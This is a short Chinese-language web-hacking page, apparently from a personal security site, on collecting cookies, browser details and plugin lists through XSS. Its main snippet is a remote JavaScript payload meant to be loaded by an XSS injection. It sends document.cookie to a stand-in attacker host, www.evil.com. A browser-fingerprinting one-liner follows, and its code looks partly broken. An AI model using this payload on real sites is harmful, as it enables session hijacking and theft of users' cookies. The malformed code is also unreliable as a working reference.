 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)获取cookie+浏览器信息+插件


## ![](../img/github4.png)获取cookie
获取cookie的远程js（供xss调用）：
```js
var img=document.creatElement("img");
img.src="http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```
## ![](../img/github5.png)获取浏览器信息
#### 方法1：
navigator.userAgent
#### 方法2（根据各浏览器间的差异构造一行代码）：
```js
browser=(function x(){})[-5]=='x'?'FF3':(function x(){})[-6]=='x'?'FF2':/a/[-1]=='a'?'FF';'\v'=='v'?'IE':/a/.__proto__=='//'?'Saf':/s/.test(/a/.toString)?'Chr':/^function\(/.test([].sort)?'OP':'Unknown'
```
## ![](../img/github6.png)获取插件
navigator.plugins

__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
